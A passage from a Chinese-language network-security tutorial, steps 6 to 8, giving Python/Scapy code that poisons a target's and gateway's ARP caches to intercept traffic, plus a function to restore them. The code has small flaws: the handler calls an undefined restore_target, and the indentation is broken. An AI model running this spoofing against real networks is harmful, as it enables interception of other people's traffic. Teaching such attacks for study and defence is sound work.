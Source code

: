6.  定义用于毒害目标 ARP 缓存的函数：

```
def poison(gateway_ip,gateway_mac,target_ip,target_mac):
    targetPacket = ARP()
    targetPacket.op = 2
    targetPacket.psrc = gateway_ip
    targetPacket.pdst = target_ip
    targetPacket.hwdst= target_mac
    gatewayPacket = ARP()
    gatewayPacket.op = 2
    gatewayPacket.psrc = target_ip
    gatewayPacket.pdst = gateway_ip
    gatewayPacket.hwdst= gateway_mac
    while True:
       try:
           targetPacket.show()
           send(targetPacket)
           gatewayPacket.show()
           send(gatewayPacket)
           time.sleep(2)
         except KeyboardInterrupt:                
 restore_target(gateway_ip,gateway_mac,target_ip,target_mac)
            sys.exit(0)
       sys.exit(0)
       return
```

这里，我们发送两种类型的数据包——一种发送到目标机器，另一种发送到网关。前两个块定义这些数据包。目标数据包如下所示：

![](../images/00055.jpeg)

`gateway`数据包如下：

![](../images/00056.jpeg)

7.  现在创建一个函数，将中毒缓存重置回正常状态：

```
def restore(gateway_ip,gateway_mac,target_ip,target_mac):
    print("Restoring target...")
    send(ARP(op=2, psrc=gateway_ip, pdst=target_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=gateway_mac),count=100)
    send(ARP(op=2, psrc=target_ip, pdst=gateway_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=target_mac),count=100)
    print("[Target Restored...")
    sys.exit(0)
```

8.  然后，我们可以开始发送数据包：

```
try:
    poison(gateway_ip, gateway_mac,target_ip,target_mac)
except KeyboardInterrupt:
    restore(gateway_ip,gateway_mac,target_ip,target_mac)
    sys.exit(0)  
```
